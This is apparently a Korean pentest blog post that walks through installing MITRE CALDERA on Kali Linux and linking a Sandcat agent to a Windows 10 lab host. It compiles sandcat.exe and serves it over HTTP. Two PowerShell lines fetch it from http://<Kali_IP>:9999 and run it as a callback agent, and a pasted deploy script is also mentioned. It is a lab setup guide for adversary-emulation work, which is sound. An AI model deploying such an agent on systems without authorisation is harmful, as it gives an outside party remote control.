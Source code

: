 ```yaml
---
title: '[Pentest] CALDERA 설치 및 Agent 연동'
date: 2025-09-23 00:00:00
categories: [Pentest]
tags: []
published: True
---
```



# #Set-up

> **Environment:** <br>
> OS: Kali Linux 2025.2
{: .prompt-info }

<br>

1. Git clone

    ```bash
    git clone https://github.com/mitre/caldera.git --recursive
    ```

2. Python 가상환경 설정

    ```bash
    cd caldera
    python3 -m venv venv
    source venv/bin/activate
    ```

3. requirements 설치

    ```bash
    pip3 install -r requirements.txt
    ```

4. 빌드를 위한 npm 설치

    ```bash
    sudo apt install npm nodejs
    ```


5. Caldera 빌드 및 실행

    ```bash
    python server.py --insecure --build
    ```

6. (Optional) 패키지 설치 오류 해결

    업그레이드된 Kali Linux에서는 Python 3.13을 사용하는데 caldera는 Python 3.12까지 지원한다.

    참고: [https://github.com/mitre/caldera/issues/3154](https://github.com/mitre/caldera/issues/3154)

    <br>

    ```bash
    # Install deps
    sudo apt-get install -y build-essential libssl-dev zlib1g-dev libbz2-dev \
        libreadline-dev libsqlite3-dev libncurses5-dev libffi-dev \
        liblzma-dev libgdbm-dev libnss3-dev curl git
    ```

    <br>

    ```bash
    # Install pyenv
    curl -fsSL https://pyenv.run | bash
    ```

    <br>

    ```bash
    # Add to shell init
    echo 'export PATH="$HOME/.pyenv/bin:$PATH"' >> ~/.zshrc
    echo 'eval "$(pyenv init -)"' >> ~/.zshrc
    echo 'eval "$(pyenv virtualenv-init -)"' >> ~/.zshrc
    exec $SHELL
    ```
    <br>

    ```bash
    # Install Python 3.11
    pyenv install 3.11.9
    pyenv virtualenv 3.11.9 caldera-env

    # (쉘 다시 실행)

    pyenv activate caldera-env
    pip install -r requirements.txt
    python server.py --insecure
    ```

<br>

<br>

# #Execute

CALDERA는 기본적으로 `localhost:8888`에서 실행되고, 기본 계정은 `admin:admin`이다.

<br>

![image](/assets/posts/250923-1.png)

![image](/assets/posts/250923-2.png)

<br>

<br>

# #Agent 연동

> **Environment:** <br>
> OS: Windows 10
{: .prompt-info }

<br>

## 연동 방법 (1) - Sandcat 수동 컴파일

1. (Kali) 기존 sandcat 제거 후 재클론

    ```bash
    rm -rf plugins/sandcat
    git clone https://github.com/mitre/sandcat.git plugins/sandcat
    ```

2. Go 설치

    ```bash
    sudo apt update
    sudo apt install golang-go
    ```

3. Windows용 sandcat 수동 컴파일

    ```bash
    cd plugins/sandcat
    GOOS=windows GOARCH=amd64 go build -o sandcat.exe sandcat.go
    ```

4. sandcat.exe 생성 여부 확인

    ```bash
    ls -l sandcat.exe
    ```

5. 임시 웹 서버 실행

    ```bash
    python -m http.server 9999
    ```

6.  (Windows) sandcat.exe 다운로드

    ```powershell
    Invoke-WebRequest -Uri http://<Kali_IP>:9999/sandcat.exe -OutFile C:\Users\Public\sandcat.exe
    ```

6. Agent 연결

    ```powershell
    cd C:\Users\Public
    .\sandcat.exe -server http://<Kali_IP>:9999 -group red
    ```

<br>

<br>

## 연동 방법 (2) - caldera web에서 설정

1. (Windows) 웹 브라우저에서 `<Kali_IP>:8888` 접속


2. CAMPAIGNS 메뉴 > agents > Deploy an agent 버튼 클릭


3. sandcat 탭 선택 후, Windows 탭 선택

4. app.contact.http 값을 Kali IP로 변경 후, 생성되는 PowerShell 스크립트 복사

5. PowerShellISE에서 복사한 스크립트 붙여넣기 후 실행

<br>

![image](/assets/posts/250923-3.png)
